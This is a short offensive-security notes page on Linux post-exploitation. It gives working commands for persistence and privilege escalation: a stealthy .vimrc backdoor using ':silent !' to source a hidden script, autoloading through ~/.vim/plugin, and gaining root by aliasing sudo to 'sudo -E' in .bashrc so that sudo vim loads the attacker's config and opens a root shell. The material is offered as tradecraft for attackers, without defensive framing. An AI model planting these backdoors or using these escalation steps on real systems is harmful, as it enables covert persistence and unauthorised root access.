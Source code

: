 ## Linux post exploitation
Linking Linux:
[[Linux LM]]
Meterpreter:
[[General Meterpreter Post-exp]]

### User configuration files

**.bash_profile** is executed when logging session is started.
**.bashrc** is executed when the new terminal is opened in the existing session.

We can use this to maintain persistance or escalate privilages.

VIM config simple backdoor - **.vimrc** in user's home directory. With the ! we can run shell commands e.g.
#vim #bash #backdoor #config
```bash
:silent !touch /tmp/text.txt
```

To be stealthy with our commands we can source the shell script with:
#vim #bash #backdoor #config
```bash
:silent !source /home/user/.hidden_file
```

We can also source other VIM config with source command without the !:
#vim #bash #backdoor #config
```bash
:silent source /home/user/.hidden_vimrc
```

If we want to do the same interactively in vim we must do the : first.

Or we can use the vim plugin directory, all vim configuration with extension **.vim** in the following dir will be run:
#vim #bash #backdoor
```bash
~/.vim/plugin/
```

We can escalate the privilages if user runs sudo with vim and it is **Ubuntu or Red Hat**, as they load the user's **.vimrc** in the root user context. The Debian uses the root's .vimrc context when sudo vim or  vimsudo.
For debian we must add the following line to .bashrc:
#bash #sudo #priv-esc-linux #config
```bash
echo 'alias sudo="sudo -E"' >> .bashrc
source ~/.bashrc
```

The -E option forces the sudo to use user's .vimrc
If we are able to vim as root without the password we can easly escalate:
#vim #bash #cmd-exec #sudo
```bash
:shell
```
